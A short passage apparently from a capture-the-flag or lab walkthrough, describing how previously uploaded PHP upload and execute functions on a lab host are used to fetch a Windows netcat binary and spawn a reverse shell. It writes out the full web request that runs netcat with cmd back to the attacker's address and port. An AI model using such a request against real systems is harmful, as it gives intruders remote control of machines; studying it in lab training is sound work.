

nc64
find netcat 1.11 windows executable here
now that our fexec and fupload php functions are uploaded and running RCE for us, its time to use them both to download our netcat executable and run it to spawn a reverse shell back to our attack machine
10.10.10.9/steve.php?fupload=nc64.exe&fexec=nc64.exe -e cmd 10.10.14.62 4444


and we have our foothold!